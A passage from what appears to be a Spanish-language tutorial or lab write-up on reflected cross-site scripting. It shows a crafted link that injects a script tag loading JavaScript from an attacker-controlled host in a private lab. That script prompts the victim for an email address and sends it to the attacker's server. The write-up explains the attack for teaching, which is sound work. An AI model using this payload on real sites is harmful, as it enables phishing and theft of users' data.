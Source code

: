 De esta manera un usuario malintencionado podría obtener acceso a información sensible del usuario, como las cookies de sesión, tokens de autenticación entre otros datos. 

En este ejemplo supongamos que le enviamos el siguiente enlace al usuario victima.

```text
http://192.168.6.236/XSS_R/?name=test<script src="http://192.168.6.5:8000/prompt.js"></script>
```

Mientras que en el otro lado tendremos corriendo un servidor `HTTP` el cual contiene el siguiente archivo `JavaScript` que se ejecutará en el navegador del usuario.

```js
// Guarda en la variable 'email' el input del usuario
var email = prompt("Introducir correo electrónico para continuar");

// Guarda en la variable 'req' una nueva instancia del objeto XMLHttpRequest, que permite realizar peticiones HTTP
var req = new XMLHttpRequest();

// Realiza una petición via GET al servidor HTTP concantenando el input del usuario
req.open("GET","http://192.168.6.5:8000/?email=" + email);

// Envía la solicitud al servidor
req.send()
```

![img](/assets/img/xss/xssr_7.png)


El usuario al pinchar en el enlace le aparecerá una ventana donde se le pedirá el correo electrónico.

![img](/assets/img/xss/xssr_8.png)

Al enviar el correo, el usuario sin percatarse ha enviado su correo electrónico al atacante.

![img](/assets/img/xss/xssr_9.png)
